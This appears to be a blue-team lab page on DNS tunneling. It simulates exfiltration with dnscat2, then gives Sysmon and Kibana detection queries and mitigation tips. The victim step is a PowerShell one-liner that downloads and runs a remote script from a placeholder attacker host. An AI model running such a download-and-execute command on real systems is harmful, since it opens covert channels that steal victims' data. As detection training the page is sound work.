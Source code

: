 # 🛡️ Scenario 4: DNS Tunneling

## 🎯 Objective

Simulate and detect covert data exfiltration via DNS queries.

---

## 🧪 Attack Simulation with dnscat2

### ✅ On Attacker (Kali)

```bash
dnscat2-server
```

### ✅ On Victim

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/dnscat.ps1')
```

---

## 📊 Detection

### 🧠 Sysmon Event ID

| Event ID | Description             |
|----------|--------------------------|
| 3        | Network connection       |

---

## 🔍 Kibana Query

```kql
winlog.event_id:3 AND dns.question.name.keyword: "*.*"
dns.question.name.keyword: /[a-z0-9]{30,}\./
```

## 🛡️ Mitigation

- Block long or unknown DNS domains.
- Use DNS firewall and Zeek for inspection.
